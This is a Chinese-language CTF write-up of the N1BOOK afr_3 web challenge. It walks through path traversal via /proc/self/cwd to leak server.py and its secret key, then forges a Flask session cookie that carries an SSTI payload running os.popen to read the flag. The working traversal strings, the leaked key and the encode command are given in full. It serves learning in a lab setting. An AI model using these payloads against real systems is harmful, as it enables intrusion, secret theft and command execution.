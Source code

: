```yaml
---
title: N1BOOK of web afr_3 writeup
date: 2022-04-11 14:34:00
updated: 2022-04-11 22:35:00
tags: [ctf,security,<<从0到1：CTFer成长之路>]
description: <<从0到1：CTFer成长之路>>配套题目 web相关题目的做题记录 N1BOOK of web afr_3 writeup
---
```


Nu1L Team写的\<\<[从0到1：CTFer成长之路](https://book.nu1l.com/tasks/)\>\>的题目在BUUOJ上都有了复现环境，简单看了看发现WEB的题目wp和环境都比较齐全，决定做一下并且写博客记录一下。

>参考:https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121490787

首页有输入框可以提交name

![](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411143954822.png)

提交后给出一个article让我们看，先看看里面都是啥

![](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411143954822.png)

url中可以传参数，随便传一个看看

## 任意文件读取漏洞

![image-20220411144131085](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411144131085.png)

发现可以任意文件读取，但是尝试读flag是不能直接读的，这里需要对linux的文件目录有一定的了解。

## 利用任意文件读取漏洞结合proc读取源码

/proc 文件系统是一种内核和内核模块用来向进程 (process) 发送信息的机制 (所以叫做 /proc)。这个伪文件系统让你可以和内核内部数据结构进行交互，获取 有关进程的有用信息，在运行中 (on the fly) 改变设置 (通过改变内核参数)。 与其他文件系统不同，/proc 存在于内存之中而不是硬盘上。

/proc 文件系统可以被用于收集有用的关于系统和运行中的内核的信息。

下面是一些重要 的文件：

/proc/cpuinfo - CPU 的信息 (型号, 家族, 缓存大小等) 
/proc/meminfo - 物理内存、交换空间等的信息 
/proc/mounts - 已加载的文件系统的列表 
/proc/devices - 可用设备的列表 
/proc/filesystems - 被支持的文件系统 
/proc/modules - 已加载的模块 
/proc/version - 内核版本 
/proc/cmdline - 系统启动时输入的内核命令行参数

我们需要用到`/proc/N/cmdline` 进程启动命令，`/proc/N/cwd` 链接到进程当前工作目录，利用这两个目录，我们读取`../../../../proc/self/cmdline`，来获取当前进程的启动命令，发现是python server.py，然后我们再利用`../../../../proc/self/cwd/server.py`链接到进程当前工作目录的server.py文件，那么这时候我们就可以直接获取到源码了，获取到的格式比较乱，可以用IDE格式化一下代码方便查看，我用的是vscode格式化代码的插件，但是并不是非常有效，还是需要手动调整一下，下面是调整后的。（后来发现f12就可以看到正常格式的源码，这下猪鼻了，但是编码倒是出了点问题也不知道为啥）

```python
<h1>Article Content:</h1> <br>#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile(&#39;flag.py&#39;)
execfile(&#39;key.py&#39;)

FLAG = flag
app.secret_key = key
@app.route(&#34;/n1page&#34;, methods=[&#34;GET&#34;, &#34;POST&#34;])
def n1page():
    if request.method != &#34;POST&#34;:
        return redirect(url_for(&#34;index&#34;))
    n1code = request.form.get(&#34;n1code&#34;) or None
    if n1code is not None:
        n1code = n1code.replace(&#34;.&#34;, &#34;&#34;).replace(&#34;_&#34;, &#34;&#34;).replace(&#34;{&#34;,&#34;&#34;).replace(&#34;}&#34;,&#34;&#34;)
    if &#34;n1code&#34; not in session or session[&#39;n1code&#39;] is None:
        session[&#39;n1code&#39;] = n1code
    template = None
    if session[&#39;n1code&#39;] is not None:
        template = &#39;&#39;&#39;&lt;h1&gt;N1 Page&lt;/h1&gt; &lt;div class=&#34;row&gt; &lt;div class=&#34;col-md-6 col-md-offset-3 center&#34;&gt; Hello : %s, why you don&#39;t look at our &lt;a href=&#39;/article?name=article&#39;&gt;article&lt;/a&gt;? &lt;/div&gt; &lt;/div&gt; &#39;&#39;&#39; % session[&#39;n1code&#39;]
        session[&#39;n1code&#39;] = None
    return render_template_string(template)

@app.route(&#34;/&#34;, methods=[&#34;GET&#34;])
def index():
    return render_template(&#34;main.html&#34;)
@app.route(&#39;/article&#39;, methods=[&#39;GET&#39;])
def article():
    error = 0
    if &#39;name&#39; in request.args:
        page = request.args.get(&#39;name&#39;)
    else:
        page = &#39;article&#39;
    if page.find(&#39;flag&#39;)&gt;=0:
        page = &#39;notallowed.txt&#39;
    try:
        template = open(&#39;/home/nu11111111l/articles/{}&#39;.format(page)).read()
    except Exception as e:
        template = e

    return render_template(&#39;article.html&#39;, template=template)

if __name__ == &#34;__main__&#34;:
    app.run(host=&#39;0.0.0.0&#39;, debug=False)
```



## SSTI模板注入漏洞

我们需要注意到的关键是，server.py运行的这个路径下面还有两个文件，key.py和flag.py，我们并不能直接利用任意文件读取的漏洞读取flag文件是因为flag关键词在article()函数中做了过滤，然后这边结合考虑一下之前输入的name有什么用，因为毕竟是一个ctf题目，总共就那么点信息显然是有用处的，看一下这部分的代码

```python

if "n1code" not in session or session['n1code'] is None: 
    session['n1code'] = n1code
template = None
if session['n1code'] is not None:
 template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' %
session['n1code']
session['n1code'] = None

```

name那个输入框里面填入的值就是n1code的值，代码首先会对post传来n1code过滤一些SSTI关键的符号（下一段会说这样有什么用），然后再看你session里面有没有n1code这个字段，如果没有就会给session加个n1code的字段并且值为POST请求传来的n1code的值被过滤字符后的值，如果有就把session带入模板中执行，那么也就是说根据我们正常传入n1code的值然后他就会过滤SSTI的关键字符后，把n1code的值带进模板里面去执行，这里就会导致SSTI模板注入漏洞。但是SSTI的关键符号被过滤了，大括号都被过滤了，就没有办法让模板执行代码了对吧，所以说直接传n1code进行模板注入的方法并不奏效。

## 伪造session完成SSTI利用

因此我们需要使用伪造session的方式来完成SSTI注入漏洞的利用，因为你会发现你直接传入n1code的值会被过滤，但是你session如果是伪造的，我们就可以让n1code是我们想要执行的恶意代码并且不受到过滤条件的限制了，这非常关键，而且我们恰好有任意文件读取漏洞可以读取key.py这个文件，先来讲讲session是什么。

session是一种对用户身份的认证，并不是你叫ek1ng我就会在session里写ek1ng，session是存储在浏览器中用户可以更改的，那不然别人改个session也叫ek1ng那不是可以被别人轻易冒充，所以说session['n1code']经过key的加密，也就是说在服务端认为n1code是ek1ng，但是在客户端这个n1code的值是‘ek1ng’经过key加密之后的值，因此需要借助工具和通过任意文件读取漏洞来伪造一个session，从而达成对SSTI漏洞的利用。

首先肯定需要看看加密session的key.py文件，

payload:`article?name=../../../proc/self/cwd/key.py`

得到key.py的内容`key = 'Drmhze6EPcv0fN_81Bj-nA'`

借助工具[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)来构造session，在命令行执行`.\flask_session_cookie_manager3.py encode -s Drmhze6EPcv0fN_81Bj-nA -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`

得到伪造后的session![image-20220411223700006](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411223700006.png)

修改cookie中的session['n1code']的值，就可以看到flag啦

![image-20220411223828860](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411223828860.png)

然后这题真的自己做的话肯定还是有不少坑的，简单了解一下flask的模板注入就知道，flask模板注入首先要先找可以导入os模块的基类，因为我们需要执行popen来读flag.py文件，但是能导入os模块的基类到底是哪个呢，这和python版本本身就是有关系的，这里可以去看一下我之前写的HGAME final中那道SSTI模板注入的题目中是如何找基类的，那个题是写了个脚本，所以说这题我觉得正儿八经做法就是要写个脚本跑一下看看结果的，但是由于我是没什么思路学习的别人wp，这边就当下懒狗啦，对我来说写个脚本并不困难，主要是学习一下思路，希望别的参考我博客复现的师傅们别偷懒哈哈哈。

